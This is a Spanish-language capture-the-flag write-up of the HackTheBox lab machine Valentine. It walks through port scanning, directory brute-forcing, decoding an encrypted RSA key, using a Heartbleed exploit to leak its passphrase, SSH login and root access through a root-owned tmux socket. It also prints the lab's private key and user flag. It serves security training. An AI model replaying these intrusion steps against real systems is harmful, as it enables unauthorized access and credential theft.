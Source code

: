 ```yaml
---
title: Valentine Writeup
author:
date: 22-02-2023
categories: [HackTheBox, Machines Easy]
tags: [Writeup, Guías, HackTheBox,SSL/TLS,Web,OpenSSL,encode, Linux]
pin: false
image:
  path: /assets/img/commons/Valentine/Valentine.png
  alt: Valentine WriteUp
---
```


**10.10.10.79 Valentine (easy machine)** Otra máquina de HackTheBox vengo a traer esta vez tocando un poco de codificación y cifrado con una clave rsa para acceder por ssh.

## Information Ghatering / ScanPorts

- Comenzamos con la fase de recolección de información haciendo un escaneo por TCP en todos los puertos con nmap

```console
$ nmap -p-  -sS -vvv  --min-rate 2000 -n -Pn 10.10.10.79 -oG allPorts 

```
-p-  -> escanearemos todos los rangos de puertos (65535)

-sS -> análisis utilizando TCP SYN Este tipo de escaneo, está basado en la velocidad de escaneo, de ahí la versatilidad que mencionamos anteriormente, ya que permite escanear miles de puertos por segundo en una red que se encuentre de>

-vvv -> verbose para que mediante vayas descubriendo puertos se reporten en la terminal

--min-rate 2000 -> paquetes enviados no mas lentos que 2000 paquetes por segundo, envío de paquetes super rápido

-n -> que no aplique resoluci+on de DNS para que no tarde el escaneo

-Pn -> ni que me detecte el descburimiento de hosts

```console
$ nmap -p-  -sS -vvv  --min-rate 2000 -n -Pn 10.10.10.79 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 13:30 CST
Initiating SYN Stealth Scan at 13:30
Scanning 10.10.10.79 [65535 ports]
Discovered open port 443/tcp on 10.10.10.79
Discovered open port 80/tcp on 10.10.10.79
Discovered open port 22/tcp on 10.10.10.79
Completed SYN Stealth Scan at 13:31, 13.29s elapsed (65535 total ports)
Nmap scan report for 10.10.10.79
Host is up, received user-set (0.067s latency).
Scanned at 2023-02-22 13:30:51 CST for 13s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
           Raw packets sent: 66088 (2.908MB) | Rcvd: 65862 (2.634MB)
```
aqui ya es importante tomar en cuenta el dominio que cuenta con certificado SSL/TLS asi que pasaré otra vez nmap para saber mas a fondo el descubrimiento

-sCV -> escaneo lanzando scripts que detecten servicios y versiones

-p -> especeficando los puertos a escanear

-oN y todo nuestro output lo guardamos en una captura formato nmap con el nombre de targeted
```console
nmap -sCV -p22,80,443 10.10.10.79 -oN targeted        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 13:32 CST
Nmap scan report for 10.10.10.79
Host is up (0.070s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2023-02-22T19:32:21+00:00; -1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.64 seconds
```
me da una resolución DNS asi que **valentine.htb** lo guardaré en el /etc/hosts
![](/assets/img/commons/Valentine/terminal.png)
al ver el sitio web con y sin la resolución de DNS vemos que es lo mismo 
![](/assets/img/commons/Valentine/terminal1.png)
nada interesante por ahorita, analizando el sitio web. Voy a proceder a fuzzear rutas con gobuster

## BruteForce Directory Discovery
```console
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://valentine.htb/
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://valentine.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/22 13:33:40 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 38]
/dev                  (Status: 301) [Size: 312] [--> http://valentine.htb/dev/]
/encode               (Status: 200) [Size: 554]
/decode               (Status: 200) [Size: 552]
/omg                  (Status: 200) [Size: 153356]
Progress: 35694 / 220561 (16.18%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/02/22 13:37:44 Finished
===============================================================
```
encontramos algo que me llama la atención un directorio /dev  
![](/assets/img/commons/Valentine/terminal2.png)
en hype_key vemos un tipo de codificación en hexadecimal y por el nombre quiero pensar que es una clave importante, asi que me lo voy a traer a mi equipo y haré su proceso inverso
![](/assets/img/commons/Valentine/terminal3.png)
tenemos una clave id_rsa:) el unico problema es que esta cifrada y para eso tenemos que tener una password...

## Exploitation Heartbleed dump Password
al revisar la portada del sitio web, hay una pista de un logo. una vulnerabilidad que fue muy conocida llamada heartbleed pero que es esto? es una vulnerabilidad grave en la biblioteca de software criptográfico popularmente llamado OpenSSL.  permite robar información protegida en condiciones normales de criptografía SSL / TLS , La criptografía SSL / TLS fortalece la seguridad y privacidad de comunicación por medio de internet para aplicaciones tales como web, correo electrónico, mensajes instantáneos y algunas redes privadas virtuales (VPN’s) por lo tanto la conexión va a ir cifrada.
ante este fallo de seguridad grave, buscaré si hay un exploit relacionado a ello
![](/assets/img/commons/Valentine/terminal4.png)
analizando el primer exploit vemos lo siguiente que nos muestra.
![](/assets/img/commons/Valentine/terminal5.png)
Usando el exploit va a dumpear, información confidencial de la memoria aprovechandose de esta falla del certificado SSL/TLS.  Ejecutarlo varias veces debería generar una cadena codificada en base64 probablemente tenga que pasar varias veces el exploit hasta el punto donde recoja lo que nos interesa 
![](/assets/img/commons/Valentine/terminal6.png)
vemos que pasando el exploit un par de veces me logro recoger esa cadena en bas64, solo hay que tener que hacer el proceso iverso y debería quedar la password
```console
$ echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d;echo 
heartbleedbelievethehype
```
y vemos que la password es **heartbleedbelievethehype**, ahora para descifrar la clave rsa usaré openssl pasandole la password que tenemos
```console
$ openssl rsa -in hype_rsa -out hype_new_rsa
Enter pass phrase for hype_rsa: 
writing RSA key
```
```console
-----BEGIN PRIVATE KEY-----
MIIEvwIBADANBgkqhkiG9w0BAQEFAASCBKkwggSlAgEAAoIBAQDUU3iZcDCfeCCI
ML834Fx2YQF/TIyXoi6VI6S/1Z9SsZM9NShwUdRr3mPJocWOZ7RzuEbpRFZL1zgk
ykHfn8pR0Wc6kjQw4lCVGV237iqWlG+MSGRVOPuDS1UmaN3dN6bLL541LNpTscE4
RbNzPhP6pD5pKsSX7IcMsAfyZ9rpfZKuciS0LXpbTS6kokrru6/MM1u3DkcfxuSW
8HeO6lWQ7sbCMLbCp9WjKmBRlxMY4Jj0tUsz8f66vGaHxWiaUzBFy5m82qfCyL9N
4Yro1xe1RF8uC58i8rE/baDzW2GMK7JVcAvPiunu2J0QeWg8sVOytLLxPVxPrPKD
b7CBEkzNAgMBAAECggEAIGoBzkLfWWkIZmIyvwAEfZn/lYSFLhz3SZNgclzVbtVn
Kf/0hXkombMgvsZwl3XjiYsHYFMrbXaUvqEV/2Kwi18RiFKLny7dqHVv5kV4wPY2
NU9T6eLCGuAkRrHZtQzq7Lf/ShTn28EWQ1X4uE4w1KHAWWPLEXptf5VcETijpeNb
jrgVMP/MamWwHkyvKBc2+THXgzBeEo+mMsPcUXYdmI+axq8f3blUZ8zEsuPVXZPX
GukTCTOKYBOs6+Vc3TQFmqqabrjdAmsmuCWyeQWfz9wEzG5aXPDW0etIWY7xiez4
lUAE/RyL2Oa9WEuJ2qoeyGXcOYyFve1LicDelNzRDQKBgQDuLVB5xSvKG0K21zd3
NBUJl2aQP1Kvt/uv+d7uM1U2r+f9VSHplggQur466Kn5Gd5Htymi/Wz4I4X4rIlb
ksI22qYL7vC1gxJZ91KZ8xyj6lFZC8UdVrwoLULarJthaDEPWBGMNta811qs6rs0
ZUEETlbaWmbac7SzcGR3neg0bwKBgQDkNvAU/ZDjs3ZOC1507CwIoTe7MYZJXcVN
EHcdmg4sFxzcJgEzWRBmlxOGXlhUu9zqvpPFBGEpzvdBHYYUsPTfJgE3sfCA4+1T
+3ubZ0golGBKQtgT8b6JnU7E0mxNZERDfhvJVeHGCmbgsR6V8A3j6Zu5vwQsSL1v
Yb1aDiQIgwKBgQDE9C/iIkwNuvE2JU42gpkK72neyp5jtG6qnKPeshA7QsdCVA3R
DUHqI6J/MDquRNfs0efaYlqj7ywv8O09DmUP20sH/zSJxLN+NejWaZU7bt6KFhOQ
KVM6ngL0tVtf9zrqh1crbYWxbxwKdakMsNZM60MjGTKIXroE0GIkEC4efQKBgQCT
dVQHnBfEqS7mGr57uiZxpQoHsGZefXKA6wSsYeCKaJzDOuNHtGK+hxuclNVqWsDS
BTYh9UR66TomHteGAxkWHs5mmFkYTy4IN9SUg1XCsqzNDwfjSy6caMJ+tqA4GXNq
UM/PdeieOBZlVMy4gRXYkBeJG32sx4tvrq3UxJJP1QKBgQCe2jm6q4DtQ+mTvOBr
CipH6ReGU7LVGk7U7A3ElcCL8QH32TRAvma8SB4TBE//5LxQJG8sZ0euceDobIIR
Axg25Qa05Wo1HDZ7MiulTtHJt1MU3+Bf7pK2lQTBcUC4xwOSSxI1MsgkLaxrt4kW
kep5qMlYBzfSo47UgGU1Wh6HEA==
-----END PRIVATE KEY-----
```
y ya tenemos nuestra clave rsa, ahora solo nos coenctamos por ssh y tener nuestra primera flag:)
```console
ssh -i hype_new_rsa hype@10.10.10.79 -o PubkeyAcceptedKeyTypes=ssh-rsa      
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ whoami
hype
hype@Valentine:~$ find \-name \*.txt
./Desktop/user.txt
./user.txt
hype@Valentine:~$ cat user.txt 
4181b8c7067515664e7481b29087517a
```
## Privilege Escalation - Post Exploitation

para enumerar rápido y eficaz el sistema pase linpeas
![](/assets/img/commons/Valentine/terminal7.png)
y encontré algo que me llamo mucho la atención en la parte de (Processes, Crons, Timers, Services and Sockets)
![](/assets/img/commons/Valentine/terminal8.png)
observamos que se está ejecutando una sesión tmux como usuario root. Simplemente ejecutando el tmux -S /.devs/dev_sess como se nos muestra en el proceso se conectará a la sesión, con la raíz completa privilegios
![](/assets/img/commons/Valentine/terminal9.png)


